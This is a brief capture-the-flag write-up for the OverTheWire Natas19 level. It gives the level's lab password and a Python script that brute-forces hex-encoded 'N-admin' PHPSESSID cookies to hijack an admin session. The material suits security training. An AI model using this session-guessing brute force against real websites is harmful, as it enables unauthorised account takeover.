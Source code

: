 ![image](https://github.com/user-attachments/assets/60279342-532f-411a-b7fa-6cdfe3e12538)

It means that unlike Natas18 (where PHPSESSID was predictable using rand(1,640)), Natas19 uses custom or encoded session IDs, but likely still vulnerable.


```
import requests

username = 'natas19'
password = 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr'  # Replace this with actual password from level 18
url = 'http://natas19.natas.labs.overthewire.org/'

for i in range(1, 641):
    sid = f"{i}-admin".encode("utf-8").hex()  # hex encoding of 'i-admin'
    cookies = {'PHPSESSID': sid}
    r = requests.get(url, auth=(username, password), cookies=cookies)
    print(cookies)
    if "You are an admin" in r.text:
        print(f"[+] Found admin session ID: {sid}")
        print(r.text)
        break

```
This code will get us the password, by bruteforcing.
